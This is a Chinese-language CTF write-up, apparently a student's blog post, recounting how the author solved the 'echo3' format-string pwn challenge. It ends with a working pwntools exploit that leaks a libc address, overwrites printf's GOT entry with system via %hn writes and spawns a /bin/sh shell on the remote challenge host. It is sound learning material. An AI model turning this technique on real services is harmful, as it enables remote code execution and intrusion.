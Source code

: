 # innday echo3 wp


# innday echo3 吐槽 & 记录向 wp

## 一些碎碎念

### 不要靠近奶茶，会变得不幸

上个月月初 （21.11.03） ， chuj 学长在群里说有一个 fmtstr 题只要写出来就可以得到一杯奶茶。显然，我为了奶茶就冲了。学长发给我题的时候是这样形容这个题的：

> 可能会比较有难度

这是比较有难度吗，这是难，很难！

## 令人摸不着头脑的过程

### 瞎搞

#### 一

因为是第一次写 CTF 的题，当然也是第一次写 pwn 题，所以根本不知道该怎么下手，于是就寻求百度的帮助。看了一些 write up 和入门教程之后**大概**明白了要做点什么之后就开始~~做题~~瞎搞了。

把elf下载下来之后，先 checksec ，~~*不过这一步我做了跟没做一样，虽然百度了，但是根本不理解*~~，

然后在 ida 里 F5 了一下，感觉是要修改 magic 的值，然后就开始尝试了。

*当时还是太天真了，代码都没看明白就开始写了。*

第一次尝试失败了，对于向来直接莽的我来说根本整不明白发生了什么，于是直接求助学长，得到的结果是方向错了。

#### 二

在几天的摸鱼之后，再次研究这道题，~~发现我好像上当了~~，总算是接近正确的路线了。开始~~在高数课上~~思考如何获取 system 函数，借鉴网上的入门教程之后认为应该用 shellcode ，就再次询问学长。学长说栈开了不可执行保护，所以不能 shellcode 。

虽然我的方向又错了，但是这次学长给我指了一条明路：泄露 system ，修改 got 表。

### 仿佛走上正轨

为了修改 got 表，要找到一条链。然而第一次尝试的时候运气不太好，并没有发现可以用的链。就再一次步入歧途，思考偏移的问题。然后发现跟偏移好像没什么关系，就又不明白了。一边看各种文章，一边问学长，聊天记录里我懂了又懂。

在某一次尝试之后，我终于发现栈是会变的了！然后又去问学长，~~*这么一看我问题好多啊*~~，得知了栈是随机的。

开始尝试修改 got 表，但是总是失败。于是再~~第 n ~~次求助，开始学习替换 libc 。按照学长的[blog](https://cjovi.icu/pwnreview/941.html) 里的方法替换了libc，但是无论怎么换一直都不能使用。

~~不知道第几次~~去问学长，学长说

> patchelf 是直接在 elf 里面替换的，所以路径过长的时候可能会覆写一起其他数据，这种情况比较少，但是这里好像确实有这个情况

解决方案是把 libc 和 ld 放在 elf 的目录下，然后用相对地址替换。

### 和 exp 纠缠

换好 libc 之后，手打就还算顺利了，但是 exp 成为了新的阻碍。

先是要泄露 libc 的基地址。这一个问题还好，并没有困扰我太长时间。

真正要命的是 sendline 中间的间隔太短导致我本地一直卡，就又摸了好几天的鱼，后来改用 sendafter 就解决了这个问题。

最后一个问题是我试图两次写两个完整的 got 然而远程一直失败，问了学长才知道要考虑网络问题，~~其实也就我会忘记这种事吧~~。

当时我是重新找的链，用栈上残留的地址写 got 。

后来我发现是有第两个解决方案的，直接改一下本来的 exp ，第一个 got 和第二个一起写，空格的数量直接减半。因为之前测试的时候是有几率可以收到第一个的结束标志的，所以第一个是可以成功写进去的，第二个跟着它应该没有问题，就是这个方案需要碰运气。

## EXP

``` python
from pwn import *

while 1:

    libc = ELF('libc-2.23.so')
    echo = remote('node4.buuoj.cn', 26765)

    printf_got = 0x804a014
    try:
        payload1 = '%47$p %18$p !'
        echo.sendline(payload1)

        echo.recvuntil('0x', timeout=1)
        libc_start_add = int(echo.recv(8), 16) - 247
        if libc_start_add < 0xf7000000:
            echo.close()
        if libc_start_add > 0xf8000000:
            echo.close()
        libc_start_off = libc.symbols['__libc_start_main']
        system_off = libc.symbols['system']
        system_addr = libc_start_add - libc_start_off + system_off
        system_addr_low = system_addr % 0x10000
        system_addr_high = (system_addr >> 16) % 0x10000
        printf_got_low = printf_got % 0x10000

        echo.recvuntil('0x', timeout=1)
        addr_2e = int(echo.recv(8), 16)
        addr_09_low = addr_2e % 0x10000 - 0x94

        payload2 = '%' + str(addr_09_low) + 'c' + '%34$hn' + '%8c%35$hn' + '!!'
        echo.sendafter('!', payload2)

        payload3 = '%' + str(printf_got_low) + 'c' + '%91$hn' + '%2c%89$hn' + '!!!'
        echo.sendafter('!!', payload3)

        if system_addr_low < system_addr_high:
            payload4 = '%' + str(system_addr_low) + 'c' + '%9$hn' + '%' + str(system_addr_high - system_addr_low) + 'c' + '%11$hn' + '!!!!'
        else:
            payload4 = '%' + str(system_addr_high) + 'c' + '%11$hn' + '%' + str(system_addr_low - system_addr_high) + 'c' + '%9$hn' + '!!!!'
        echo.sendafter('!!!', payload4)

        payload5 = '/bin/sh\x00'
        echo.sendafter('!!!!', payload5)
        echo.interactive()

    except:
        echo.close()
```

## 最后的碎碎念

我写最后一句话的时候已经是 22.3.21 了，这谁想得到呢。其实 21.12.5 的时候好像就写得差不多了，但是一直没有部署 blog ，所以就放着了。虽然写完了，但是我也不知道最后啥时候发。摸鱼去。

